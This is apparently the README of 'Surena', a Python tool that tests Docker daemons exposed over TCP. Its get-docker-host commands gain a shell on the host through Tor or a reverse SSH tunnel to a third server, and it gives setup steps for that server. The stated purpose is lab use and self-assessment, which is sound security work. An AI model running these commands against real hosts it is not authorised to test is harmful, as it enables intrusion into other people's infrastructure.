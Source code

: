 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To understand more about how Surena works and how to use these methods, please refer to our Medium article: [article](https://medium.com/@norouzzadegan/69628c4be503). The name Surena is derived from a Parthian(Iranian) spahbed from the first century BC. For further information, you can visit the [Wikipedia](https://en.wikipedia.org/wiki/Surena) page on Surena.

## Installation

Surena can be installed from PyPI by running:

```bash
pip install surena
```

Once installed, Surena can be run using the following commands in your terminal. To view available commands and options, use:

```bash
surena --help
```

## Using
Surena offers two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command checks if the Docker daemon's port is accessible from the network. To understand its options, run:

```bash
surena is-docker-host --help
```

For example, execute the command with these options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run:

```bash
surena get-docker-host --help
```
Please note, if Surena can gain shell access from the Docker host, it will create a text file named "WARNING.surena" in the "/root/" path of the Docker host.
For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that in the remote SSH server or in the `THIRD_SERVER_IP`, which has already been mentioned, the "GatewayPorts" configuration in the `sshd_config` file located at `/etc/ssh/sshd_config` should be changed from `GatewayPorts no` to either `GatewayPorts clientspecified` or `GatewayPorts yes` to enable it.

Additionally, ensure to replace `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` with the appropriate values.


## Warning
Surena is intended for lab use and to help you understand whether your Docker daemon is secure or insecure. **PLEASE DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.**

## Donate
If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be grateful if you could consider supporting us by donating Dogecoin or Tether. 

USDT (TRC20): `TXcb1yTW71QZhqVEFx3Y1JGZVu384Mt17B` \
Dogecoin: `DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA`

